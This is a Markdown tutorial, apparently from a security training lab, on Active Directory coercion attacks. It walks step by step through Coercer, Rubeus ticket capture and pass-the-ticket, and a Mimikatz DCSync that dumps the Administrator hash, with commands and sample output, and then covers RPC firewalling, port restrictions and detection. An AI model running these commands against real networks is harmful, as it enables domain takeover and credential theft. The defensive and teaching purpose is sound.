 ## Description
Coercing attacks have emerged as a reliable way to escalate privileges from any user to Domain Administrator. In a typical Active Directory (AD) environment, nearly every setup is vulnerable to such attacks. The PrinterBug exemplifies coercion, but several other RPC functions can achieve similar results, enabling any domain user to coerce a RemoteServer$ to authenticate to any domain machine. The **Coercer** tool was developed to exploit multiple vulnerable RPC functions.

### Impact
Once coercion is established, the attacker can select from several "follow-up" attack methods:
- **Relay to another Domain Controller (DC)** and perform DCSync if SMB Signing is disabled.
- **Force the DC to connect to an Unconstrained Delegation (UD) machine**, capturing the TGT in the UD server’s memory (tools: Rubeus, Mimikatz).
- **Relay to Active Directory Certificate Services**, allowing threat agents to obtain and use a DC certificate (e.g., for DCSync).
- **Resource-Based Kerberos Delegation** for the relayed machine, enabling attackers to authenticate as any Administrator on that machine.

## Attack Methodology
For this scenario, we’ll capture a TGT on a compromised server configured for Unconstrained Delegation, using the **Coercer** tool.

### Step-by-Step Attack Execution

1. **Identify Unconstrained Delegation Servers** using PowerView:
    ```powershell
    Get-NetComputer -Unconstrained | select samaccountname
    ```
    Example Output:
    ```
    samaccountname
    --------------
    DC1$
    SERVER01$
    WS001$
    DC2$
    ```

2. **Run Rubeus** on the compromised host (e.g., WS001) to monitor for new logons:
    ```powershell
    .\Rubeus.exe monitor /interval:1
    ```
    Sample Output:
    ```
    [*] 18/12/2022 22.37.09 UTC - Found new TGT:
      User                  :  bob@EAGLE.LOCAL
      StartTime             :  18/12/2022 23.30.09
      ...
    ```

3. **Run Coercer** on the Kali machine to trigger authentication requests towards the UD machine:
    ```bash
    Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
    ```
    Example Output:
    ```
    [>] Pipe '\PIPE\lsarpc' is accessible!
      ...
    [>] Pipe '\PIPE\spoolss' is accessible!
      ...
    [+] All done!
    ```

4. **Capture the DC TGT** on WS001 using Rubeus:
    ```powershell
    [*] 18/12/2022 22.55.52 UTC - Found new TGT:
      User                  :  DC1$@EAGLE.LOCAL
      StartTime             :  18/12/2022 23.30.21
      ...
    ```

5. **Use the TGT for Domain Authentication**. One option is to load the TGT in Rubeus:
    ```powershell
    .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
    ```

6. **Perform a DCSync Attack** with Mimikatz to obtain the Administrator’s hash:
    ```powershell
    .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
    ```

## Prevention
Windows lacks built-in capabilities to monitor and control RPC calls to mitigate this attack. Two general prevention approaches:
- **Third-Party RPC Firewall**: Tools like Zero Networks’ RPC firewall can audit and block dangerous RPC functions, with an option to customize blocking for new OPNUMs.
- **Restrict Outbound Traffic on Ports 139 and 445**: Block these ports on Domain Controllers and other infrastructure servers except where necessary for AD functions. This can prevent not only known coercing attacks but also newly discovered vulnerabilities.

## Detection
Detecting RPC activity abuse is challenging without third-party tools. Zero Networks' RPC firewall provides comprehensive detection capabilities. Alternatively, monitoring firewall logs can help identify unusual patterns.

1. **Firewall Log Analysis**: Successful coercing attacks result in outbound traffic to the attacker machine, often on port 445.
2. **Traffic Blocking Detection**: Blocking outbound traffic on ports 139 and 445 prevents attackers from receiving coerced TGTs, and blocked connections serve as indicators of suspicious activity.

By monitoring for dropped traffic to ports 139 and 445, especially from critical infrastructure, unusual or unexpected traffic patterns can signal potential coercing attacks.

---
**Note**: Implementing both RPC firewalling and port restriction improves defenses against coercing attacks significantly.
